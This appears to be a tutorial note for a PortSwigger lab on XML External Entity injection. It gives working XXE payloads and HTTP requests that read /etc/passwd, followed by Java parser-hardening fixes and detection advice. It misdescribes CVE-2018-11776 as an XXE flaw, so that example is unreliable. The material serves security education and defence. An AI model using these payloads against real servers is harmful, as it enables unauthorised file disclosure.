

## Introduction to XXE Injection

### What is XXE Injection?

XML External Entity (XXE) injection is a type of attack against an application that processes XML input. This attack occurs when an application improperly handles XML input containing references to external entities. An external entity is a reference to data outside the current document. When an application processes such input, it may unintentionally disclose sensitive information, execute unauthorized commands, or even cause denial of service (DoS).

### Why Does XXE Matter?

XXE attacks are significant because they can lead to severe security vulnerabilities. They can be used to:

- **Retrieve sensitive files**: Attackers can read files from the server's filesystem.
- **Execute system commands**: Depending on the XML parser, attackers might be able to execute arbitrary commands.
- **Denial of Service (DoS)**: By creating infinite loops or large data transfers, attackers can overwhelm the server.

### How Does XXE Work Under the Hood?

When an application processes XML input, it typically uses an XML parser. The XML parser reads the XML document and resolves any external entities it encounters. If the XML parser is configured to allow external entities, it will fetch the referenced data and include it in the parsed document.

Consider the following XML snippet:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root><data>&xxe;</data></root>
```

In this example, `&xxe;` is an external entity that references the `/etc/passwd` file on the server. If the XML parser allows external entities, it will read the contents of `/etc/passwd` and include them in the parsed XML document.

### Real-World Example: CVE-2018-11776

One notable example of an XXE vulnerability is CVE-2018-11776, which affected the Apache Struts framework. This vulnerability allowed attackers to exploit the XXE vulnerability to execute arbitrary commands on the server. The vulnerability was due to the improper handling of XML input in certain versions of Apache Struts.

### Lab Setup

To understand and practice XXE injection, we will use the Web Security Academy. Here’s how to set up the lab:

1. **Sign Up**: Visit [PortSwigger Web Security Academy](https://portswigger.net/web-security) and sign up for an account.
2. **Access the Lab**: Once logged in, navigate to the "Academy" section, select "All Labs," and search for "XXE Injection." Choose the lab titled "Exploiting XXE using external entities to retrieve files."

### Using Burp Suite

For this lab, we will use Burp Suite, a popular tool for web application security testing. We will use the free Community Edition, but the Professional Edition is also available.

1. **Start Burp Suite**: Launch Burp Suite and ensure your browser is configured to use Burp as a proxy.
2. **Navigate to the Lab**: Access the lab through your browser, and all requests will be intercepted by Burp Suite.

### Identifying Parameters for XXE Injection

To identify potential parameters for XXE injection, follow these steps:

1. **HTTP History**: Go to the "HTTP History" tab in Burp Suite.
2. **View Details**: Click on "View Details" for a request that interacts with the backend.
3. **Identify Parameters**: Look for parameters that accept XML input.

### Example Request and Response

Let’s assume the following HTTP request is intercepted:

```http
POST /checkStock HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/xml

<?xml version="1.0"?>
<stockCheck>
  <productId>1</productId>
  <storeId>2</storeId>
</stockCheck>
```

The corresponding response might look like this:

```http
HTTP/1.1 200 OK
Content-Type: application/xml

<?xml version="1.0"?>
<response>
  <productId>1</productId>
  <storeId>2</storeId>
  <inStock>true</inStock>
</response>
```

### Injecting XXE to Retrieve Files

To exploit the XXE vulnerability, we need to inject an external entity that references a sensitive file. For example, to retrieve the contents of `/etc/passwd`, we can modify the XML input as follows:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>1</productId>
  <storeId>2</storeId>
  <data>&xxe;</data>
</stockCheck>
```

### Sending the Modified Request

Send the modified request through Burp Suite:

```http
POST /checkStock HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>1</productId>
  <storeId>2</storeId>
  <data>&xxe;</data>
</stockCheck>
```

### Expected Response

If the server is vulnerable to XXE, the response will contain the contents of `/etc/passwd`:

```http
HTTP/1.1 200 OK
Content-Type: application/xml

<?xml version="1.0"?>
<response>
  <productId>1</productId>
  <storeId>2</storeId>
  <inStock>true</inStock>
  <data>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
</data>
</response>
```

### Common Pitfalls

1. **Parser Configuration**: Ensure the XML parser is properly configured to disallow external entities.
2. **Input Validation**: Validate and sanitize all XML input to prevent malicious entities.
3. **Error Handling**: Properly handle errors to avoid leaking sensitive information.

### How to Prevent / Defend Against XXE Injection

#### Detection

1. **Static Analysis Tools**: Use tools like SonarQube or Fortify to scan for XXE vulnerabilities in code.
2. **Dynamic Analysis Tools**: Use tools like Burp Suite or OWASP ZAP to test for XXE vulnerabilities during runtime.

#### Prevention

1. **Disable External Entities**: Configure the XML parser to disallow external entities. For example, in Java, you can disable external entities using the following code:

    ```java
    DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
    dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
    dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
    dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
    ```

2. **Input Validation**: Validate and sanitize all XML input to ensure it does not contain malicious entities.

#### Secure Coding Fixes

**Vulnerable Code**:

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

**Secure Code**:

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);

DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

### Hardening Configuration

1. **Web Server Configuration**: Ensure web servers are configured to restrict access to sensitive files.
2. **Firewall Rules**: Implement firewall rules to block unauthorized access to sensitive resources.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs to practice XXE injection.
- **OWASP Juice Shop**: A deliberately insecure web app for practicing various security vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web app for learning and practicing web security.

### Conclusion

XXE injection is a critical vulnerability that can lead to severe consequences if not properly mitigated. By understanding how it works, identifying potential vulnerabilities, and implementing robust defenses, you can significantly reduce the risk of XXE attacks.

### Mermaid Diagrams

#### XXE Injection Attack Chain

```mermaid
sequenceDiagram
  participant User
  participant WebApp
  participant XMLParser
  participant Filesystem

  User->>WebApp: Send XML with &lt;!ENTITY&gt;
  WebApp->>XMLParser: Parse XML
  XMLParser-->>Filesystem: Fetch file content
  Filesystem-->>XMLParser: Return file content
  XMLParser-->>WebApp: Include file content in response
  WebApp-->>User: Return response with file content
```

#### XML Parser Configuration



By thoroughly understanding and practicing these concepts, you can effectively defend against XXE injection attacks and ensure the security of your applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/02-Lab 1 Exploiting XXE using external entities to retrieve files/00-Overview|Overview]] | [[Web Security (PortSwigger)/08-XXE Injection/02-Lab 1 Exploiting XXE using external entities to retrieve files/02-Common Pitfalls and Detection|Common Pitfalls and Detection]]
